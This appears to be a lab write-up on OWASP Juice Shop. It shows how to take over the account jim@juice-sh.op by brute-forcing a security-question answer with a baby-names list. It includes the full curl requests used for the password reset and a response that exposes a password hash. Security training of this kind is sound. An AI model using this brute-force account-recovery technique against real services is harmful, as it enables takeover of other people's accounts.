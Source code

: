 the juice shop challenges didn't include an insecure design category. 

however, it is noteworthy that the juice shop website provides an questions and answer credential recovery workflow and this is something we can leverage  https://juice.8-thousander.me/#/forgot-password

First off, i tried browsing the website for email addresses to test. Then, I try them out one by one from the forgot password UI. 

```
curl 'https://juice.8-thousander.me/rest/user/security-question?email=jim@juice-sh.op' \
  -H 'authority: juice.8-thousander.me' \
  -H 'accept: application/json, text/plain, */*' \
  -H 'accept-language: en-US,en;q=0.9,zh-CN;q=0.8,zh-TW;q=0.7,zh;q=0.6' \
  -H 'cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=l9wv5QOenYWKdj5twUlTKFNfJSkHgibLf2VFDmhEbu9NHNbAVXD8kmZ6aR3N' \
  -H 'dnt: 1' \
  -H 'if-none-match: W/"92-mlPLZ5oDzMmPp1y/TqY+KRpYUqc"' \
  -H 'referer: https://juice.8-thousander.me/' \
  -H 'sec-ch-ua: "Microsoft Edge";v="111", "Not(A:Brand";v="8", "Chromium";v="111"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "macOS"' \
  -H 'sec-fetch-dest: empty' \
  -H 'sec-fetch-mode: cors' \
  -H 'sec-fetch-site: same-origin' \
  -H 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.44' \
  --compressed
```

I found that this particular uses his siblings middle name as answer. 

```
{"question":{"id":1,"question":"Your eldest siblings middle name?","createdAt":"2023-03-22T14:41:53.673Z","updatedAt":"2023-03-22T14:41:53.673Z"}}
```

Since name is easy to guess. I decide to bruteforce it. 

I used a baby names list gather from github as source https://raw.githubusercontent.com/aruljohn/popular-baby-names/master/2021/girl_boy_names_2021.json


this is the request I will use to brute force the forgot password api. 
```
curl 'https://juice.8-thousander.me/rest/user/reset-password' \
  -H 'authority: juice.8-thousander.me' \
  -H 'accept: application/json, text/plain, */*' \
  -H 'accept-language: en-US,en;q=0.9,zh-CN;q=0.8,zh-TW;q=0.7,zh;q=0.6' \
  -H 'content-type: application/json' \
  -H 'cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=l9wv5QOenYWKdj5twUlTKFNfJSkHgibLf2VFDmhEbu9NHNbAVXD8kmZ6aR3N' \
  -H 'dnt: 1' \
  -H 'origin: https://juice.8-thousander.me' \
  -H 'referer: https://juice.8-thousander.me/' \
  -H 'sec-ch-ua: "Microsoft Edge";v="111", "Not(A:Brand";v="8", "Chromium";v="111"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "macOS"' \
  -H 'sec-fetch-dest: empty' \
  -H 'sec-fetch-mode: cors' \
  -H 'sec-fetch-site: same-origin' \
  -H 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.44' \
  --data-raw '{"email":"jim@juice-sh.op","answer":"alex","new":"abc123","repeat":"abc123"}' \
  --compressed
```

I successfully updated the password for user "jim@juice-sh.op". 

```
{"user":{"id":2,"username":"","email":"jim@juice-sh.op","password":"e99a18c428cb38d5f260853678922e03","role":"customer","deluxeToken":"","lastLoginIp":"","profileImage":"assets/public/images/uploads/default.svg","totpSecret":"","isActive":true,"createdAt":"2023-03-22T14:41:54.073Z","updatedAt":"2023-03-23T04:39:42.574Z","deletedAt":null}}Samuel
```

